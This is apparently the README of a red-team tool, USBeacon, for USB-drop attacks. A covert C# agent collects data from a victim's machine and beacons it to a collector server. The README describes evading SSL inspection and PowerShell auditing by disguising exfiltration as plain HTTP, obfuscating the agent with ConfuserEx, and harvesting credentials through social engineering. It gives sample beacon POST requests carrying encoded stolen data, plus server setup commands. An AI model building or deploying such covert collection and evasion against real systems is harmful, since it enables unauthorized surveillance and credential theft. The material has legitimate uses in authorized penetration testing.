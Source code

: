 USBeacon
===================
>- What and Why
>  - **Backend**
>  - **Frontend**
>  - **Provisioning**
>  - **Operations**
>  

#What and Why

* Ask: Use no exploitation or drop offensive agents (Empire, MSF), but record who inserted USB an on what machine. Possibly use SocEng opportunities to gain some credential data. 
* Enable transparent, obscured payload communication over common non-secured port (80). Application level encryption. This is done so that SSL interception and inspection is not an issue.  Works by blending into normal traffic. All it should look like a straight HTTP traffic.
* Allows storage of gathered data.
* Any HTTP client can communicate.

##Backend 

> - Flexibly Handles REST API
> Verbs:  _GET_, _POST_, _PUT_ 
> endpoints 
>  - /beacon/[:id] , 
>  - /ebeacon/[:id] (encrypted beacon) 
> - Decodes/decrypts payloads
> - Saves timestamped payloads to database 


Sample Plaintext (POST):

`POST http://example.com:8000/beacon/4445534B544F502D4A4D4A4D4E4C49`

`a=hid&d=state_ok_data_follows`

Sample Encrypted Request:

`POST http://example.com:8000/ebeacon/4445534B544F502D4A4D4A4D4E4C49 `

`a=hid&d=NTgsNTksNDUsNTMsNDIsNDksNDYsODMsNTIsNTEsNTIsNTEsNDgsNTAsNTUsMzQsMjYsMjMsMTksMzEsMTMsMzIsNTgsNTksNDUsNTMsNDIsNDksNDYsODMsNTIsNTEsNTIsNTEsNDgsNTAsNTUsMzIsNzksNzEsNzYsODAsNzksNzIsNzAsODAsNzksNzEsNzEsODAsNzksNzYsNzEsMzI`

### Install
git clone https://github.com/dsnezhkov/USBeacon.git

_Install runtime and framework dependencies_

    apt-get install python3.4-venv
    python3.4 -m venv venv
    pip install --upgrade  pip
    pip install gunicorn
    
_Install application dependencies_

    pip install -r requirements
    
  _Application init and start_
  
    python init_db.py
    
>Setup application container: Nginx/apache/wsgi, etc.
	    
    
    gunicorn app:app -p gunicorn.pid -b 0.0.0.0:8000  --error-logfile=gunicorn.log --access-logfile=gunicorn.log --capture-output  -D 

###_Alternatively run setup and run scripts_
`backend/scripts/setup.sh`
This script will also have a sample nginx site configuration

`backend/scripts/start_server.sh`

----------
## Frontend 

Really, it's about agent gathering the data. Normally it would be an executable on USB doing the collection. I opted to avoid Powershell or other native scripting capability to avoid the upcoming Powershell command auditing. This might include anything within **System.Management.Automation** space. At the same time C# agent strikes a balance between Powershell and unmanaged code. 

_Frontend_ contains example of such C# projects which collects needed info and can be used to communicate HTTP back to  the Backend collector.

>./frontend/Windows/exebeacon/

is one such example. 
For the specific need I have chosen to further protect the  code with https://yck1509.github.io/ConfuserEx/ 


Create others as needed.

## Provisioning 

Contains sample scripts to manage creation of a working USB RubberDucky drop.  
